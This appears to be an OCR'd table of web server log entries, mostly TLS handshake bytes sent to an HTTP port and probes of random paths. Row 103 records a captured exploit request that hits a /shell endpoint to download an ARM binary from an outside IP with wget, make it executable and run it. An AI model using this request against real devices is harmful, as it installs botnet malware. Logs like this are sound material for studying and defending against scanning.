 | 102 |                     1 | GET /.well-known/security.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
| 103 |                     1 | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11                                                                           |
| 104 |                     1 | \x16\x03\x01\x00\x92\x01\x00\x00\x8E\x03\x03\xB2\x9C\x13\xE9&Og\xAF\xC4\xD7\xCCu\xB8-\xEF[\x99z8\xF8\xA2\xDB\xAB: \xCF\xC2\x05!`id\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                           |
| 105 |                     1 | GET /HhXT HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                             |
| 106 |                     1 | GET /qu6A HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                             |
| 107 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03\x81i\xF7\x0B\x97\x08\xE5\x11\x12\xBER\xFA\xA7N\x9C\x8C                                                                                                                                                                                                                                                                                                                            |
| 108 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03?\xADq\xD9\x09\xA8\xE7\xC4PK\xFB\x81\x12!\x9Fs\x1F$A~C\x02'\xED^ \xF9\x1C\xD1\xA5\xCAG \x8F\xA8T6s\xF4X\x9B\x5C\xC1\x9F\xE9\xE4\x85[3([\x93\x04\xC08\xBC\x9F\x98]\xDBv\xF0\x14r\xD3\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                   |
| 109 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x85\xEE\xA3\xC5\xF2&\xB5\x8A\x0B\xF7EY\xB3=\xDF]\xFA$\x9D9\xF0K\xC4\x0B\x048\xA2\xE9\xFD\xE3\x88\xB8\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                  |
| 110 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03/\x8C\xAB\x01\x937\xF5s*\xE5\x09\xBE\x92\x1E{\xC6H\x10\xC4\xBA\x22\x03\x06\xA6Vo\x0C\x19 t\x1Fk\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                        |
| 111 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03!S\x9D\xB4\x1D4\xFE\x16\xE7\xCC4\xB7xL\xC1\xC1\xF2')Kt\xA8E\xFE\x09Z\xE8\x1FM\xC8}e\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                    |
| 112 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03v\x1D\xC2\xE3H&\x07\xD3\x113\xB1]\x0F\xAE\xA1PW\x1E\xBC\x86\xC9}\xA5WF                                                                                                                                                                                                                                                                                                                   |
| 113 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xE2\xC6\xBE\xAB\x00\xE6\xD4                                                                                                                                                                                                                                                                                                                                                             |
| 114 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xA0\x05\x0C\xFF\xE2[$\xB0\x0C\xD4\xD6\x04\xBC\xA6\xF1\x0Ft-p\x8F`\x09\x8A<\xD8.\x98\x91\xA2\xE8q\xF5\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                  |